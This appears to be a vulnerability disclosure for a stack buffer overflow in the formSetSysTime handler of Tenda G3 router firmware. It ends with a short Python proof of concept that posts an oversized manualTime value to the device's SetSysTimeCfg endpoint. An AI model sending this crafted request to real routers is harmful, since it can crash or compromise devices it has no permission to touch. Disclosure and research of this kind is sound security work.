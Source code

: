 # Tenda G3 formSetSysTime
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetSysTime function.
### Vulnerability details
Stack-based buffer overflow in function formSetSysTime on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetSysTime line 57, it reads in a user-provided parameter, and the variable manualTime is passed to the sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetSysTime-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/SetSysTimeCfg'
payload = {
    "manualTime": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

